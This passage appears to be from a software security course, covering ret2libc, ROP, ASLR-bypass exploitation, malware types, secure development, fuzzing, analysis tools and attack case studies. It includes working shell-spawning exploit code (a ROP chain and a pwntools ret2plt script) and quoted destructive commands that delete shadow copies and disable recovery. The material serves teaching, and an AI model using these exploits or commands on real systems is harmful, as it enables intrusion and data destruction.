$ strings -a -t x /lib/i386-linux-gnu/libc.so.6 | grep "/bin/sh"
  17e0f3 /bin/sh
```

**Exploit:**
```bash
$ ./vuln $(python2 -c 'print "A"*76 + "\x00\xd2\x03\xf7" + "FAKE" + "\xf3\xe0\x17\xf7"')
```

### 4.2 Return-Oriented Programming (ROP)


**Analogy:** ROP is like building with LEGO bricks. Each brick (gadget) is a tiny pre-built piece → "move this value here," "add these two," "return." You can't make new bricks (DEP), but you can chain existing ones to build anything. A ROP chain is a sequence of these bricks that together execute arbitrary computation → all from existing code.

**Concept:** ROP chains small instruction sequences ending in `ret` (gadgets) to perform arbitrary computation. Each gadget's address is placed on the stack; `ret` pops the next gadget address and executes it.

**How gadgets work:**
```
Gadget example:
pop rdi; ret    → at address 0x7f123456

Stack during ROP execution:
[0x7f123456]    → pop rdi → rdi = next value on stack; ret → next gadget
[0xdeadbeef]    → value loaded into rdi
[0x7f123abc]    → next gadget address
```

#### 4.2.1 Finding Gadgets with ropper

```bash
# Install ropper
pip install ropper

# Find gadgets in libc
ropper --file /lib/i386-linux-gnu/libc.so.6 --search "pop %"

# Find specific gadgets
ropper --file vuln --search "pop rdi"
ropper --file vuln --search "ret"

# Search by instruction
ropper --file /lib/x86_64-linux-gnu/libc.so.6 --search "int 0x80"
```

**Sample output:**
```
[INFO] Loaded gadgets from cache
[LOAD] loading... 100%
[LOAD] removing double gadgets... 100%

Gadgets
=======

0x000000000002a3e5: pop rdi; ret
0x000000000002be2f: pop rsi; ret
0x000000000002f42e: pop rdx; ret
0x0000000000045eb0: pop rax; ret
0x000000000002e5a4: syscall; ret
```

#### 4.2.2 Building a ROP Chain (x86_64)

**Goal:** Call `execve("/bin/sh", NULL, NULL)`. On x86_64:
- rax = 59 (execve syscall number)
- rdi = pointer to "/bin/sh"
- rsi = 0 (argv = NULL)
- rdx = 0 (envp = NULL)
- `syscall`

**ROP chain construction:**
```python
import struct

# Gadgets from libc (addresses relative to libc base)
pop_rdi     = 0x2a3e5    # pop rdi; ret
pop_rsi     = 0x2be2f    # pop rsi; ret
pop_rdx     = 0x2f42e    # pop rdx; ret
pop_rax     = 0x45eb0    # pop rax; ret
syscall_ret = 0x2e5a4    # syscall; ret
bin_sh      = 0x17e0f3   # address of "/bin/sh" string in libc
libc_base   = 0x7ffff7dd5000  # example libc base (changes with ASLR)

rop_chain = [
    pop_rdi,  bin_sh,           # rdi = pointer to "/bin/sh"
    pop_rsi,  0,                # rsi = 0
    pop_rdx,  0,                # rdx = 0
    pop_rax,  59,               # rax = 59 (SYS_execve)
    syscall_ret                 # trigger syscall
]

# Build final payload: padding + ROP chain
payload = b"A" * 104  # offset to return address
for addr in rop_chain:
    payload += struct.pack("<Q", libc_base + addr)

print(payload.hex())
```

#### 4.2.3 Practical: ROPgadget Usage

```bash
# Install ROPgadget
pip install ROPgadget

# Full gadget listing
ROPgadget --binary vuln

# Find specific sequence
ROPgadget --binary vuln --only "pop|ret"

# Filter for syscall gadgets
ROPgadget --binary /lib/x86_64-linux-gnu/libc.so.6 --opbytes "0f 05 c3"

# JSON output for automated exploitation
ROPgadget --binary vuln --json > gadgets.json
```

---

### 4.3 ASLR Bypass


**Analogy:** ASLR is like a library that moves all books to random shelves every night. Even if you know where `system()` was yesterday, you can't find it today. But if you can peek at one shelf (info leak), you know where the whole section is.

#### 4.3.1 Information Leak Techniques

| Technique | How It Works | Example |
|-----------|-------------|---------|
| **Format string** | `printf(user_input)` reads stack values | `%x%x%x%x` leaks stack addresses |
| **Side channel** | Measure timing or cache behavior | Cache timing on RSA exponentiation (Meltdown/Spectre) |
| **Out-of-bounds read** | Read beyond buffer boundary | Heartbleed (CVE-2014-0160) |
| **Error messages** | Verbose error reveals addresses | Debug info in production |
| **/proc/ leaks** | Read /proc/self/maps on Linux | Direct memory layout read |
| **JavaScript ASLR oracle** | Time-based alignment detection in browser | JIT spray + timing |

#### 4.3.2 ret2plt (ASLR Bypass via PLT)

When ASLR is on, libc addresses are unknown. But the Process Linkage Table (PLT) in the binary itself is at a known address (if no PIE). The PLT contains resolved function addresses.

**Technique:** Instead of calling `system()` in libc (unknown address), call a function already in the PLT like `puts()` to leak a libc address, then calculate `system()` offset.

```python
# Step 1: Leak puts@GOT to calculate libc base
from pwn import *

elf = ELF('./vuln')
libc = ELF('/lib/i386-linux-gnu/libc.so.6')

# PLT and GOT addresses
puts_plt = elf.plt['puts']
puts_got = elf.got['puts']
main_addr = 0x0804843a  # address of main

# First payload: call puts(puts@GOT) to print actual address of puts in libc
payload1 = b"A" * 76
payload1 += p32(puts_plt)      # return to puts@PLT
payload1 += p32(main_addr)     # return to main after puts
payload1 += p32(puts_got)      # argument: puts@GOT

# Run → captures leaked address
p = process('./vuln')
p.sendline(payload1)
leaked = u32(p.recv(4))
libc_base = leaked - libc.symbols['puts']

# Step 2: Now we know libc_base, do ret2libc
system_addr = libc_base + libc.symbols['system']
bin_sh_addr = libc_base + next(libc.search(b'/bin/sh'))

payload2 = b"A" * 76
payload2 += p32(system_addr)
payload2 += b"FAKE"
payload2 += p32(bin_sh_addr)

p.sendline(payload2)
p.interactive()
```

#### 4.3.3 Complexity Analysis

| Bypass Method | Complexity | Success Rate | Notes |
|--------------|------------|--------------|-------|
| ret2plt info leak | O(1) if format string/OOB exists | High (100% if leak works) | Requires a leak primitive |
| Brute-force (32-bit) | O(2^16) average | ~50% after 2^16 tries | Slow but works without leak |
| Brute-force (64-bit) | O(2^28) average | ~0.00001% after 2^16 tries | Impractical |
| Partial overwrite | O(1) | Moderate (modulo page alignment) | Only works for same-page offsets |
| /proc/self/maps | O(1) if readable | High if file accessible | Direct address exposure |

---

## Section 5: Malware Types

### 5.1 Malware Classification


**Analogy:** Malware families are like parasites in a biological ecosystem:
- **Virus** → attaches to a host program (like a tapeworm)
- **Worm** → self-replicates across the network (like an invasive species)
- **Trojan** → disguises as something beneficial (like a cuckoo egg)
- **Ransomware** → holds your data hostage (like a kidnapper)
- **Rootkit** → hides its presence (like a chameleon)
- **Botnet** → enslaved network (like a zombie horde)
- **RAT** → remote control (like a puppet master)
- **Spyware** → watches everything (like hidden cameras)
- **Adware** → unwanted advertisements (like spam mail)
- **Fileless** → lives only in memory (like a ghost)

#### 5.1.1 Virus

**Propagation:** Infects executable files, boot sectors, or macro scripts. Requires human action (running infected program, opening infected document).

**Payload:** Varies → data corruption, credential theft, backdoor installation.

**Persistence:** Modifies host file, adds self to startup, infects system binaries.

**Detection:** Signature-based AV, behavioral analysis (file modification patterns).

**Example:** CIH (Chernobyl) virus → overwrites BIOS, renders system unbootable.

#### 5.1.2 Worm

**Propagation:** Self-propagates across networks without user interaction. Exploits network services (buffer overflows, weak passwords).

**Payload:** DoS (distributed), dropper for other malware, data theft.

**Persistence:** Often no disk persistence → runs in memory, spreads aggressively.

**Detection:** Network traffic analysis (unusual connection patterns), IDS signatures.

**Example:** Morris Worm (1988) → exploited fingerd buffer overflow, replicated via rsh/rexec.

#### 5.1.3 Trojan

**Propagation:** Disguised as legitimate software (game, utility, crack). Delivered via phishing, social engineering.

**Payload:** Backdoor, credential stealer, downloader for additional malware.

**Persistence:** Registry Run keys, scheduled tasks, service installation.

**Detection:** AV scanning, code signing verification, behavioral analysis.

**Example:** Zeus trojan → banking credential theft via web injects.

#### 5.1.4 Ransomware

**Propagation:** Phishing emails with malicious attachments, exploit kits, RDP brute-force.

**Payload:** Encrypts files with AES + RSA hybrid; demands ransom for decryption key.

**Persistence:** Deletes shadow copies, disables recovery, installs as service.

**Detection:** File system monitoring (mass file rename/encrypt), behavioral EDR.

**Example:** WannaCry (2017) → used EternalBlue exploit, encrypted 200K+ systems across 150 countries.

#### 5.1.5 Rootkit

**Propagation:** Installed after initial compromise (part of multi-stage attack). Can be kernel-mode or user-mode.

**Payload:** Hides processes, files, registry keys, network connections from system tools.

**Persistence:** Modifies kernel data structures (DKOM), hooks syscalls, loads as kernel driver.

**Detection:** Memory forensics (Volatility), boot-time scanning, hardware security modules.

**Example:** Sony BMG rootkit (2005) → hid DRM software via cloaking techniques.

#### 5.1.6 Botnet

**Propagation:** Worm-like self-propagation or exploited machines.

**Payload:** DDoS attacks, spam relay, credential cracking, cryptocurrency mining.

**Persistence:** IRC/HTTP C2 channel, domain flux (DGA), peer-to-peer command structure.

**Detection:** C2 traffic pattern analysis (beaconing, DGA domains).

**Example:** Mirai (2016) → IoT botnet, 600K+ devices, 1.2 Tbps DDoS on Dyn DNS.

#### 5.1.7 RAT (Remote Access Trojan)

**Propagation:** Trojan delivery (phishing, fake downloads).

**Payload:** Full remote control → screen capture, keylogging, file transfer, webcam access.

**Persistence:** Registry auto-run, service installation, DLL hijacking.

**Detection:** Network traffic analysis (encrypted C2 tunnel), process anomalies.

**Example:** DarkComet → full-featured RAT with keylogger, screen capture, microphone access.

#### 5.1.8 Spyware

**Propagation:** Bundled with freeware, drive-by downloads, malicious browser extensions.

**Payload:** Monitors browsing habits, captures keystrokes, steals credentials.

**Persistence:** Browser helper objects, registry persistence, scheduled tasks.

**Detection:** Anti-spyware tools (Malwarebytes, Spybot), browser settings anomalies.

**Example:** CoolWebSearch → browser hijacker that redirects all searches.

#### 5.1.9 Adware

**Propagation:** Bundled with free software, fake installers.

**Payload:** Displays unwanted advertisements, pop-ups, in-browser ads.

**Detection:** Ad-blockers, anti-malware with PUP detection.

**Example:** Delta Search → browser toolbar that injects ads.

#### 5.1.10 Fileless Malware

**Propagation:** Exploit (e.g., PowerShell downgrade attack), malicious document macros.

**Payload:** Runs entirely in memory → PowerShell scripts, WMI persistence, .NET assemblies.

**Persistence:** WMI event subscriptions, registry run keys (minimal), scheduled tasks.

**Detection:** Process tree analysis, PowerShell script block logging (Event ID 4104), memory forensics.

**Example:** Kovter → used PowerShell for execution, stored payload in registry.

### 5.2 Malware Types Comparison Table


| Type | Propagation | Persistence | Payload | Detection Difficulty | Defense |
|------|-------------|-------------|---------|---------------------|---------|
| **Virus** | File infection | Infected host files | Varied | Low (signature match) | AV, patch management |
| **Worm** | Network self-propagation | Often memory-only | DDoS, dropper | Medium (network patterns) | Segment network, patch |
| **Trojan** | Social engineering | Registry, services | Backdoor, theft | Medium (behavioral) | User training, AppLocker |
| **Ransomware** | Phishing, exploits | Shadow copy deletion | File encryption | Medium (file I/O spike) | Backups, EDR, ASR rules |
| **Rootkit** | Post-exploitation install | Kernel hooks, DKOM | Hide presence | High (memory forensics) | Secure Boot, memory integrity |
| **Botnet** | Worm + exploit | C2, DGA | DDoS, spam, mining | High (encrypted C2) | DNS sinkhole, network monitoring |
| **RAT** | Trojan delivery | Auto-run, services | Remote control | Medium (network traffic) | EDR, network segmentation |
| **Spyware** | Bundled, drive-by | BHO, registry | Keylogging, theft | Low-Medium | Anti-spyware, browser policies |
| **Adware** | Bundled software | Registry, toolbars | Unwanted ads | Low (PUP detection) | Ad-blocker, security awareness |
| **Fileless** | Exploit, macro | WMI, registry | Varied (memory) | High (memory-only) | PowerShell logging, AMSI |

### 5.3 Practical Malware Analysis with ClamAV


```bash
# Install ClamAV
apt-get install clamav clamav-daemon

# Update virus definitions
freshclam

# Scan a directory
clamscan -r --bell -i /home/user/suspicious/

# Scan with verbose output
clamscan --verbose --infected --log=scan.log C:\samples\

# Real-time file scanning
clamdscan --fdpass --multiscan /home/user/downloads/

# Scan a specific file
clamscan suspicious-file.exe

# Sample output
----------- SCAN SUMMARY -----------
Known viruses: 8654123
Engine version: 1.0.1
Scanned directories: 12
Scanned files: 45
Infected files: 2
Total errors: 0
Data scanned: 156.23 MB
Data read: 89.45 MB (ratio 1.75:1)
Time: 32.456 sec (0 m 32 s)
Start Date: 2024:01:15 14:30:22
End Date:   2024:01:15 14:30:55
```

### 5.4 Practical: PEStudio and HashDiff Analysis


**PEStudio** performs static analysis on Windows PE files without executing them:

```
Key PEStudio indicators:
- Entropy > 7.0 in sections → packed/encrypted
- TLS callbacks → anti-debugging
- Suspicious imports: VirtualAlloc, CreateRemoteThread, WriteProcessMemory
- Rich header mismatch → masquerading
- Untrusted digital signature → trojanized software
- High string entropy → obfuscated/encoded payloads
```

**HashDiff** compares file hashes to detect binary changes:
```powershell
# Calculate hashes
Get-FileHash -Path malware.exe -Algorithm SHA256
Get-FileHash -Path original.exe -Algorithm SHA256

# Compare with known hashes
Get-FileHash -Path sample.exe -Algorithm MD5
# -> Compare against VirusTotal/MalwareBazaar hash database

# Find identical files (hash matching)
Get-ChildItem -Path . -Recurse -File | Get-FileHash -Algorithm MD5 | Group-Object Hash
```

---

## Section 6: Secure Software Development Lifecycle

### 6.1 SSDLC Phases


**Analogy:** Building secure software is like constructing a fortress. You don't add defenses after the castle is built → you design moats into the blueprints, use fire-resistant stone during construction, test the drawbridge before opening, and maintain patrols year after year.



#### Phase 1: Requirements

| Activity | What It Covers |
|----------|---------------|
| Security requirements | Authentication, authorization, encryption, logging |
| Privacy requirements | Data classification, PII handling, GDPR/CCPA compliance |
| Compliance mapping | PCI-DSS, HIPAA, SOC2, FedRAMP |
| Abuse cases | "What if someone tries to misuse this?" |
| Security acceptance criteria | Definition of "secure enough" |

#### Phase 2: Design → Threat Modeling

**STRIDE** (Microsoft):

| Category | Violates | Example |
|----------|----------|---------|
| **S**poofing | Authentication | Fake user identity |
| **T**ampering | Integrity | Modify data in transit |
| **R**epudiation | Non-repudiation | Deny performing an action |
| **I**nformation Disclosure | Confidentiality | Leak credit card numbers |
| **D**enial of Service | Availability | Crash the server |
| **E**levation of Privilege | Authorization | User becomes admin |

**DREAD** (Risk Scoring):
- **D**amage Potential → how severe is the damage?
- **R**eproducibility → how reliably can the attack succeed?
- **E**xploitability → how easy is it to launch?
- **A**ffected Users → how many users are impacted?
- **D**iscoverability → how likely is the vulnerability to be found?

Each rated 1-10, summed for priority.

**PASTA** (Process for Attack Simulation and Threat Analysis):
A 7-stage risk-centric methodology:
1. Define business objectives
2. Define technical scope
3. Decompose application
4. Threat analysis
5. Vulnerability analysis
6. Attack modeling
7. Risk and impact analysis

#### Phase 3: Implementation → Secure Coding Standards

See Section 6.2 for language-specific guidelines.

| Activity | Tool/Technique |
|----------|---------------|
| Static analysis (SAST) | Flawfinder, RATS, SonarQube, Fortify |
| IDE security plugins | FindSecBugs (Java), Brakeman (Rails) |
| Pre-commit hooks | git-secrets, trufflehog for secrets |
| Code review checklist | OWASP ASVS (Application Security Verification Standard) |
| Dependency scanning | OWASP Dependency-Check, Snyk |

#### Phase 4: Testing

| Activity | Tool/Technique |
|----------|---------------|
| Dynamic analysis (DAST) | OWASP ZAP, Burp Suite |
| Fuzz testing | AFL, libFuzzer, OSS-Fuzz |
| Penetration testing | Manual + automated (Metasploit) |
| SAST integration | CI/CD pipeline gate |
| Secret scanning | Pre-commit + CI (trufflehog, gitleaks) |

#### Phase 5: Deployment

| Activity | Implementation |
|----------|---------------|
| Hardened base images | CIS benchmark AMIs, Docker slim images |
| Immutable infrastructure | No in-place updates; redeploy |
| Secrets management | HashiCorp Vault, AWS Secrets Manager, Azure Key Vault |
| Minimal runtime | Distroless containers, --no-install-recommends |
| Read-only filesystem | Container rootfs read-only, tmpfs for /tmp |

#### Phase 6: Maintenance

| Activity | Frequency |
|----------|-----------|
| Vulnerability scanning | Weekly |
| Patch management | Monthly (emergency: 48h for critical) |
| Penetration testing | Annually / after major changes |
| Incident response drills | Quarterly |
| Dependency refresh | Monthly (Dependabot, Renovate) |

---

### 6.2 Secure Coding Practices (C/C++/Java/JS)


#### 6.2.1 C/C++

| Practice | Unsafe | Safe |
|----------|--------|------|
| String copy | `strcpy(dst, src)` | `strncpy(dst, src, n)` or `strlcpy` |
| String format | `printf(user_input)` | `printf("%s", user_input)` |
| Integer handling | `int len = atoi(input)` | Check overflow before allocation |
| Memory free | `free(ptr); /* use ptr */` | `free(ptr); ptr = NULL;` |
| Array bounds | `arr[i]` without bounds check | `if (i < size) arr[i]` |
| File operations | `fopen(user_input)` | Validate/whitelist filename |

**Example: Safe string handling in C:**
```c
void safe_copy(char *input, size_t input_len) {
    char buffer[64];
    if (input_len >= sizeof(buffer)) {
        fprintf(stderr, "Input too long (%zu bytes)\n", input_len);
        return;  // or: safely truncate
    }
    memcpy(buffer, input, input_len);
    buffer[input_len] = '\0';
}
```

#### 6.2.2 Java

| Practice | Unsafe | Safe |
|----------|--------|------|
| SQL queries | `Statement.executeQuery("SELECT * FROM users WHERE id = " + id)` | `PreparedStatement.executeQuery("SELECT * FROM users WHERE id = ?")` |
| Deserialization | `ObjectInputStream.readObject()` | Validate class whitelist |
| File paths | `new File(userInput)` | Canonicalize, validate parent path |
| Reflection | `Class.forName(userInput).newInstance()` | Validate/whitelist class names |

**Example: Secure deserialization:**
```java
public class SafeObjectInputStream extends ObjectInputStream {
    private static final Set<String> ALLOWED = Set.of("com.app.User", "java.util.ArrayList");

    @Override
    protected Class<?> resolveClass(ObjectStreamClass desc) throws IOException {
        if (!ALLOWED.contains(desc.getName())) {
            throw new InvalidClassException("Unauthorized deserialization", desc.getName());
        }
        return super.resolveClass(desc);
    }
}
```

#### 6.2.3 JavaScript (Node.js and Browser)

| Practice | Unsafe | Safe |
|----------|--------|------|
| Eval | `eval(userInput)` | `JSON.parse()` or safe expression parser |
| InnerHTML | `elem.innerHTML = userInput` | `elem.textContent = userInput` |
| Command injection | `exec('cat ' + filename)` | Use APIs that avoid shell |
| Prototype pollution | `Object.assign(obj, userInput)` | `JSON.parse(JSON.stringify(obj))` |
| XSS | `res.send('<h1>' + userInput + '</h1>')` | Template escaping (EJS, React auto-escape) |

**Example: Preventing command injection:**
```javascript
// UNSAFE
const { exec } = require('child_process');
exec(`grep ${userInput} /var/log/app.log`, (err, stdout) => { ... });

// SAFE
const { execFile } = require('child_process');
execFile('grep', [userInput, '/var/log/app.log'], { shell: false }, (err, stdout) => { ... });
```

---

## Section 7: Fuzzing

### 7.1 Fuzzing Concepts


**Analogy:** Fuzzing is like a quality-control machine at a factory that shakes boxes of various sizes and weights to see which ones break. Instead of testing one expected scenario, it throws millions of random variations at the software.

**Fuzzing types:**
- **Black-box fuzzing:** No knowledge of internals; random byte mutation
- **White-box fuzzing:** Full source + symbolic execution (SAGE, KLEE)
- **Grey-box fuzzing:** Lightweight instrumentation for code coverage feedback (AFL, libFuzzer)

**Coverage-guided fuzzing:**
1. Start with seed inputs
2. Mutate input (bit flips, arithmetic, splicing)
3. Run program with mutated input
4. Measure code coverage (new paths discovered?)
5. If new coverage → add input to queue for further mutation
6. Repeat millions of times

### 7.2 Practical: AFL (American Fuzzy Lop)


#### 7.2.1 Setup and Basic Fuzzing

```bash
# Install AFL
sudo apt-get install afl++ afl-clang

# Take a vulnerable program and instrument it
afl-gcc -o vuln_fuzz vuln.c

# Create seed input directory
mkdir -p fuzz_in fuzz_out
echo "AAAA" > fuzz_in/seed.txt

# Run AFL fuzzer
afl-fuzz -i fuzz_in -o fuzz_out -- ./vuln_fuzz
```

#### 7.2.2 Sample AFL Output

```
$ afl-fuzz -i fuzz_in -o fuzz_out -- ./vuln_fuzz @@
                       american fuzzy lop ++4.08c (vuln_fuzz) [fast]

+---------------------------------------+
| process timing                        |
|  run time : 0 days, 0 hrs, 2 min, 15 sec |
|  last new path : 0 days, 0 hrs, 0 min, 3 sec |
|  last uniq crash : 0 days, 0 hrs, 0 min, 5 sec |
|  last uniq hang : 0 days, 0 hrs, 1 min, 33 sec |
+---------------------------------------+
| cycle progress                        |
|  cycles done : 7                      |
|  total paths : 124                    |
|  uniq crashes : 3                     |
|  uniq hangs : 1                       |
+---------------------------------------+
| map coverage                          |
|  map density : 2.45% (1200/49152)     |
|  count coverage : 1.03 bits/tuple     |
+---------------------------------------+
| findings in depth                     |
|  favored paths : 16                   |
|  new edges on : 18                    |
|  total crashes : 47                   |
|  total tmouts : 6                     |
+---------------------------------------+
| fuzzing strategy yields               |
|  bit flips : 15/1240, 8/1240, 2/1240  |
|  byte flips : 5/155, 2/155, 0/155     |
|  arithmetics : 8/3250, 2/3250, 0/3250 |
|  known ints : 3/325, 6/325, 1/325     |
|  havoc : 9/5200, 23/5200              |
|  splice : 2/480, 5/480                |
+---------------------------------------+
| crash probe                            |
|  crash count: 3 (unique)              |
|  test case: fuzz_out/default/crashes/id:000000*
+---------------------------------------+
```

#### 7.2.3 Analyzing a Crash

```bash
# Reproduce crash with the minimized test case
./vuln_fuzz fuzz_out/default/crashes/id:000000*

# Triaging with GDB
gdb -q --args ./vuln_fuzz fuzz_out/default/crashes/id:000000*
(gdb) run
Program received signal SIGSEGV, Segmentation fault.
0x08048427 in vulnerable ()
(gdb) info registers eip
eip            0x51515151       0x51515151
```

---

## Section 8: Static and Dynamic Analysis

### 8.1 Static Analysis (SAST)


**Analogy:** Static analysis is like a food critic reviewing a recipe by reading it → they check ingredients, technique, and timing without actually cooking anything. Bugs found early in the recipe are cheaper to fix.

#### 8.1.1 Flawfinder

Scans C/C++ source code for potential security flaws:

```bash
# Install
pip install flawfinder

# Scan a project
flawfinder --html vuln.c > report.html

# Scan with risk level filter
flawfinder --minlevel 4 vuln.c

# Output sample
$ flawfinder vuln.c
Flawfinder version 2.0.19
(C) 2001-2022 David A. Wheeler
Number of rules (primarily dangerous function) used: 221

Examining vuln.c

vuln.c:9:  [4] (buffer) strcpy:
  Does not check for buffer overflows when copying to buffer [MS-banned].
  Consider using strncpy, strlcpy, or snprintf.
  (CWE-120)

Analysis summary:
  Hits = 1
  Lines analyzed = 30 in 0.01 seconds (3000 lines/sec)
  Physical Lines = 30
  Hits@L5  = 0
  Hits@L4  = 1
  Hits@L3  = 0
  Hits@L2  = 0
  Hits@L1  = 0
```

#### 8.1.2 RATS (Rough Auditing Tool for Security)

```bash
# Install
sudo apt-get install rats

# Scan
rats vuln.c

# Output
Entries in perl: 0
Entries in ruby: 0
Entries in python: 0
Entries in C: 2

vuln.c:9: High: strcpy
  strcpy() does not check for buffer overflows when copying.
  Avoid strcpy() and use strncpy(), or better yet, snprintf().
  See CWE-120, CWE-787

vuln.c:9: Medium: fixed length local buffer
  The buffer 'buffer' is declared as a local array of 64 bytes.
  Using strcpy() with a statically-sized buffer can cause a buffer overflow.
```

**Risk Level Classification in SAST tools:**
- **Level 5 (Critical):** Memory corruption, command injection
- **Level 4 (High):** strcpy, sprintf without bounds, gets
- **Level 3 (Medium):** Race conditions, TOCTOU
- **Level 2 (Low):** Hardcoded paths, predictable random
- **Level 1 (Info):** Style issues, missing comments

### 8.2 Dynamic Analysis (DAST)


**Analogy:** Dynamic analysis is taste-testing the cooked meal → you find issues that only appear when the food is actually made (runtime config, memory states, race conditions).

| Technique | Tools | Finds |
|-----------|-------|-------|
| Fuzzing | AFL, libFuzzer, OSS-Fuzz | Memory corruption, crashes |
| Address Sanitizer | ASan (GCC/Clang) | Buffer overflows, UAF |
| Memory Sanitizer | MSan | Uninitialized memory reads |
| Undefined Behavior Sanitizer | UBSan | Undefined C/C++ behavior |
| Coverage testing | gcov, lcov | Untested code paths |
| Binary instrumentation | Valgrind, DynamoRIO | Memory leaks, invalid accesses |

**AddressSanitizer example:**
```bash
$ gcc -fsanitize=address -g -o vuln_asan vuln.c
$ ./vuln_asan $(python2 -c 'print "A"*100')
=================================================================
==12345==ERROR: AddressSanitizer: stack-buffer-overflow on address 0xffffd4f0
WRITE of size 101 at 0xffffd4f0 thread T0
    #0 0x8048456 in vulnerable vuln.c:9
    #1 0x80484c2 in main vuln.c:16

Address 0xffffd4f0 is located in stack of thread T0
  This frame has 1 object:
    [32, 96) 'buffer' <== Memory access at offset 132 overflows this variable
HINT: this may be a false positive if your program uses some custom stack unwind mechanism
      or swapcontext
      (longjmp and custom std::longjmp handlers can crash on the stack)
SUMMARY: AddressSanitizer: stack-buffer-overflow vuln.c:9 in vulnerable
```

### 8.3 Static vs Dynamic Analysis Comparison


| Dimension | Static Analysis (SAST) | Dynamic Analysis (DAST) |
|-----------|----------------------|------------------------|
| **Phase** | Implementation | Testing |
| **Code needed?** | Yes (source or binary) | No (runs live application) |
| **False positives** | High (many flagged issues are benign) | Low (observed real behavior) |
| **False negatives** | Low for known patterns | High (only tests executed paths) |
| **Speed** | Fast (minutes for large codebases) | Slow (hours to run comprehensive tests) |
| **Coverage** | All code paths (theoretical) | Only executed code paths |
| **Configuration** | Cannot detect runtime-specific issues | Can detect runtime config issues |
| **Class of bugs** | Syntax flaws, logic errors, dangerous APIs | Runtime errors, memory corruption, race conditions |
| **Integration** | Pre-commit hooks, CI pipeline | CI/CD with staging environment |
| **Tools (C/C++)** | Flawfinder, RATS, cppcheck, Coverity | ASan, Valgrind, AFL, libFuzzer |
| **Tools (Java)** | FindSecBugs, PMD, SonarQube | OWASP ZAP, Burp, JUnit |
| **Tools (Web)** | ESLint security plugin, RetireJS | OWASP ZAP, Burp Suite |

---

## Section 9: Case Studies

### 9.1 SolarWinds (2020) → Supply Chain Attack


**Analogy:** A trusted package delivery company (SolarWinds) was compromised. Every box they delivered afterward contained a bug. Customers trusted the box because of the delivery company's reputation.

**Type:** Software supply chain attack

**Timeline:**

| Date | Event |
|------|-------|
| Jan 2019 | Initial compromise of SolarWinds build environment |
| Feb 2020 | SUNBURST trojanized Orion DLL (SolarWinds.Orion.Core.BusinessLayer.dll) compiled |
| Mar 2020 | Trojanized update (Orion Platform 2020.2) released to 18,000 customers |
| Jun 2020 | FireEye detects anomalous traffic from their own SolarWinds instance |
| Dec 8, 2020 | FireEye publicly discloses breach and SUNBURST backdoor |
| Dec 13, 2020 | Microsoft, SolarWinds, FireEye release joint analysis |
| Dec 14, 2020 | CISA issues Emergency Directive 21-01 |

**Technical Breakdown:**

**SUNBURST (trojanized Orion DLL):**
- File: `SolarWinds.Orion.Core.BusinessLayer.dll`
- Added to legitimate SolarWinds digitally-signed installer
- DGA-based C2: domain derived from system info and current time
- Dormant for 2 weeks after installation (anti-sandbox)
- HTTP backdoor with configurable commands:
  - Execute command (via `cmd.exe /c`)
  - Read/write files
  - Enumerate processes
  - Disable itself
- Masked traffic as Orion Improvement Program (OIP) telemetry
- Exfiltrated data via `SolarWinds.Orion.Core.BusinessLayer.OrionImprovementBusinessLayer` fake telemetry

**SUPERNOVA (webshell):**
- Separate malware (not SUNBURST) → a C# webshell
- Deployed via IIS application pool
- Imported as `app_web_*.dll` (auto-compiled ASP.NET)
- Provided persistent HTTP backdoor

**Impact:**
- 18,000 organizations received trojanized update
- ~100 organizations compromised (secondary stage)
- Victims: US Treasury, Commerce, Energy, DHS, DOJ, fireEye, Microsoft
- Estimated cost: $100M+ for response

**Lessons:**
- Code signing ≠ trust
- Build environment must be zero-trust secured
- Software Bill of Materials (SBOM) visibility
- Network telemetry analysis for beaconing detection

---

### 9.2 NotPetya (2017) → Ransomware/Wiper


**Analogy:** A bomb disguised as a kidnapping. The attackers demanded a ransom, but even if you paid, there was no key. NotPetya looked like ransomware but was designed to permanently destroy data.

**Type:** Destructive wiper disguised as ransomware

**Timeline:**

| Date | Event |
|------|-------|
| Jun 18, 2017 | ME Doc accounting software update server compromised |
| Jun 27, 2017 | Trojanized ME Doc update pushed; NotPetya activates |
| Jun 27-28, 2017 | Spreads globally via EternalBlue, WMI, PsExec |
| Jul 5, 2017 | Analysis confirms NotPetya is a wiper (not decryptable) |

**Technical Breakdown:**

**Initial Vector → ME Doc Supply Chain:**
- Attackers compromised the ME Doc update server (Ukraine)
- Signed digital certificate used to sign the trojanized update
- ME Doc had automatic updates → installation was instant and trusted

**Propagation (Lateral Movement):**
1. **EternalBlue (SMBv1 exploit):** Same exploit used by WannaCry, patched by MS17-010
2. **WMIC:** `wmic /node:TARGET process call create "cmd.exe /c ..."`
3. **PsExec:** Remote command execution via ADMIN$
4. **Credential theft:** Used `Mimikatz` to extract credentials from lsass

**Technical Details:**
- Modified version of `Mimikatz` embedded in binary
- Encrypted MFT (Master File Table) with Salsa20
- Encrypted files with custom XOR + RSA-2048
- Overwrote MBR with custom bootloader displaying ransom note
- Killed VMs: `vssadmin.exe delete shadows /all /quiet`
- Disabled Windows recovery: `bcdedit /set {default} recoveryenabled No`

**Impact:**
- $10B+ total damages
- Maersk (global shipping): $1.4B damage, 49,000+ computers wiped
- Replaced all 4,000 servers, 45,000 PCs, 2,500 applications in 10 days
- Merck (pharma): $870M damage, halted vaccine production
- FedEx subsidiary TNT Express: $300M damage
- Total losses: >$10B (most damaging cyberattack at the time)

**Why It Was a Wiper (Not Ransomware):**
- Payment mechanism was broken: email provider was taken down
- Encryption was flawed: private key was hashed from system info
- Even paying couldn't decrypt → the goal was destruction

**Lessons:**
- Supply chain attacks bypass traditional perimeter
- EternalBlue exploit highlights importance of patch management
- Network segmentation slows lateral movement
- Offline backups: Maersk recovered from a single backup in an offline DC

---

### 9.3 Stuxnet (2010) → From a Code Perspective


**Analogy:** A guided missile that traveled through multiple locked doors, disguised itself as maintenance staff, and sabotaged a specific factory machine without the factory manager ever knowing.

**Type:** Cyber-weapon (worm targeting industrial control systems)

**Discovery:** June 2010, VirusBlokAda (Belarusian security firm)

**Technical Breakdown (Code Perspective):**

**Entry Vectors:**
1. **USB .lnk Exploit (MS10-046):** Automatically executed when USB drive was browsed in Explorer. The `%LNK%` file triggered code execution via a crafted shortcut icon resource.
2. **Print Spooler Exploit (MS10-061):** Escalated privilege via print spooler vulnerability.

**Propagation:**
- **MS10-073 (Win32k.sys):** Kernel-level privilege escalation
- **MS10-092 (Task Scheduler):** Escalated from user to SYSTEM
- **SMB/RPC:** Spread within local network
- **Peer-to-peer:** Infected machines could update each other
- **Stepstone:** Used Siemens Step 7 project files as propagation vector via `s7otbxdx.dll` hijack

**Payload (PLC Rootkit):**
- Replaced `s7otbxdx.dll` (Siemens Step 7 communication DLL) with a malicious version
